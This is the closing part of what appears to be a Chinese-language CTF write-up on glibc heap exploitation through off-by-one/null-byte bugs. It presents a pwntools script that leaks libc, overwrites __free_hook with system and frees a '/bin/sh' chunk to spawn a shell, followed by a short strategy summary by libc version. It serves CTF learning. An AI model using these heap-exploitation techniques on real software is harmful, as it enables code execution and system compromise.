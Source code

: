```python
add(0x4f8)#3
add(0x18)#4
#edit(2,"\x00"*8+p64(0x91)+p64(heap+0x490)+p64(heap+0x490)+p64(heap+0x480)+p64(heap+0x480)+'\x00'*0x60+p64(0x90))
edit(2,p64(heap+0x480)+p64(heap+0x480)+p64(heap+0x470)+p64(heap+0x470)+'\x00'*0x70+p64(0xa0))
free(3)
show(2)
p.readuntil("2]: ")
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dd0ca0-0x7ffff7a1e000)-(0x7ffff7a1d000-0x7ffff79e4000)
log.warning(hex(base))
add(0x98)#3
add(0x18)#5
free(2)
libc.address=base
gdb.attach(p,"b free")
edit(3,p64(libc.sym['__free_hook']))
add(0x98)#2
add(0x98)#6
edit(6,p64(libc.sym['system']))
edit(2,"/bin/sh\x00")


free(2)
p.interactive()
```

# Summary
* 是否有直接泄漏点，有的话直接尝试构造fake_chunk 造成overflow,没有的话
* libc版本.如果是2.29 以下那么 尝试使用例如`babytcache(2018hitcone)`的shrink
* 版本是2.29及以上的话那么找找其他的漏洞点.

OFF_BY_ONE（NULLBYTE）主要是在inuse和presize上动手脚,想要造成overlap就一般是利用错误的unlink来获得.



[0]: https://n132.github.io/2019/04/11/2019-04-11-Off-by-one/
[1]: https://github.com/n132/Watermalon/tree/master/QCTF_2018/babyheap
[2]: https://github.com/n132/Watermalon/tree/master/0CTF_2019/babeheap229